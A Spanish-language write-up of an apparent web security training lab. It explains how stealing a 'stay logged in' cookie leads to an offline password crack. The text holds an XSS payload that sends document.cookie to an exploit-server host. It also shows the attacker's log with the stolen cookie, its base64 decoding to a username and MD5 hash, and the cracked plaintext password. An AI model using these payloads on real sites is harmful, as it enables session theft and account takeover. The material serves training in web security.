





```c
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

Cuando ingresamos y seleccionamos la opción de `stay logged in` observamos que este nos da una cookie el cual esta encodeada en base64 en el cual tiene el nombre del usuario `wiener` y la contraseña del usuario en md5



Luego de investigar el sitio web, observaremos que el sitio web es propenso a una xss 



Explotaremos xss para robar la cookie del usuario carlos

```c
<script>document.location='//exploit-0af700ed03f723a980530266015400f4.exploit-server.net/'+document.cookie</script>
```

Luego debemos ir a los  logs del servidor del atacante veremos la solicitud



Ahora tenemos la cookie del usuario carlos, para ello debemos crackaerla y obtener la contraseña en texto plano

```c
10.0.3.35       2025-08-05 06:49:34 +0000 "GET /secret=jJKzAytNBtDuKh331wkWGJKFYROPyAyr;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

```c

❯ echo "Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz"| base64 -d
carlos:26323c16d5f4dabff3bb136f2460a943

```

Para crackear el hash en md5 usaremos `crackstation`



```c
carlos: onceuponatime
```